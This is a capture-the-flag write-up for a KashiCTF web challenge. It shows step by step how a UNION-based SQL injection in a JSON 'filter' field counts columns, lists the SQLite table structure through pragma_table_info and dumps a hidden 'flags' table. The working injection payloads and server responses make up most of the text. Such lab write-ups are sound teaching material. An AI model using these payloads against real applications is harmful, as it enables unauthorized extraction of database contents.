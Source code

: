 # Challenge description

The disgruntled employee also stashed some company secrets deep within the database, can you find them out?

# Soluce

Before reading this solution, you should read the solution of the previous challenge: [corporate-life-1](../corporate-life-1/soluce.md).

We know with the previous challenge that we can do SQL injection in the filter field. Let's try to do the same here to know the number of columns in the table.

When we try with 1 2 3 4 and 5 columns, we get the following response:

```json
{"error":"Internal Server Error: Database communication failed"}
```

So we know that there are more than 5 columns. Let's try with 6 columns:

```json
{ "filter": "pending' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL --" }
```

The response is:

```json
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
ETag: "71zvs9a6n82v"
Content-Length: 103
Vary: Accept-Encoding
Date: Sat, 22 Feb 2025 16:46:13 GMT
Connection: keep-alive
Keep-Alive: timeout=5

[{"employee_name":null,"request_detail":null,"status":null,"department":null,"role":null,"email":null}]
```

Now we know that there are 6 columns in the table. Let's try to get the name of the columns.

```json
{ "filter": "pending' UNION SELECT column_name, NULL, NULL, NULL, NULL, NULL FROM users --" }
```

This returns nothing, we try a lot of logical names, and we finally find the name of the table with the following request:

```json
{ "filter": "pending' UNION SELECT table_name, NULL, NULL, NULL, NULL, NULL FROM flags --" }
```

This doesn't return an internal server error, but this:

```json
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
ETag: "71zvs9a6n82v"
Content-Length: 103
Vary: Accept-Encoding
Date: Sat, 22 Feb 2025 16:57:00 GMT
Connection: keep-alive
Keep-Alive: timeout=5

[{"employee_name":null,"request_detail":null,"status":null,"department":null,"role":null,"email":null}]
```

Now we know that the table is called flags. Let's try this to know if the table is empty:

```json
{ "filter": "pending' UNION SELECT (SELECT COUNT(*) FROM flags), NULL, NULL, NULL, NULL, NULL --" }
```

This returns 6, so there are 6 rows in the table. Let's try to get the number of columns in the flags table:

```json
{ "filter": "pending' UNION SELECT (SELECT COUNT(*) FROM pragma_table_info('flags')), NULL, NULL, NULL, NULL, NULL --" }
```

This returns 2, so there are 2 columns in the flags table. Let's try to get the name of the columns:

```json
{ "filter": "pending' UNION SELECT (SELECT name FROM pragma_table_info('flags') LIMIT 1), NULL, NULL, NULL, NULL, NULL --" }
```

This returns "request_id". Let's try to get the name of the second column:

```json
{ "filter": "pending' UNION SELECT (SELECT name FROM pragma_table_info('flags') LIMIT 1 OFFSET 1), NULL, NULL, NULL, NULL, NULL --" }
```

This returns "secret_flag". Now we know the name of the columns. Let's try to get the content of the table:

```json
{ "filter": "pending' UNION SELECT request_id, secret_flag, NULL, NULL, NULL, NULL FROM flags --" }
```

This returns:

```json
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
ETag: "fbzx4zjs27hp"
Content-Length: 637
Vary: Accept-Encoding
Date: Sat, 22 Feb 2025 17:08:45 GMT
Connection: keep-alive
Keep-Alive: timeout=5

[{"employee_name":1,"request_detail":"KashiCTF","status":null,"department":null,"role":null,"email":null},{"employee_name":3,"request_detail":"{b0r1ng_o","status":null,"department":null,"role":null,"email":null},{"employee_name":8,"request_detail":"ld_c0rp0","status":null,"department":null,"role":null,"email":null},{"employee_name":15,"request_detail":"_l1f3_am_","status":null,"department":null,"role":null,"email":null},{"employee_name":19,"request_detail":"1_r1gh7_","status":null,"department":null,"role":null,"email":null},{"employee_name":21,"request_detail":"JfoWO1oy}","status":null,"department":null,"role":null,"email":null}]
```

The flag is `KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_JfoWO1oy}`.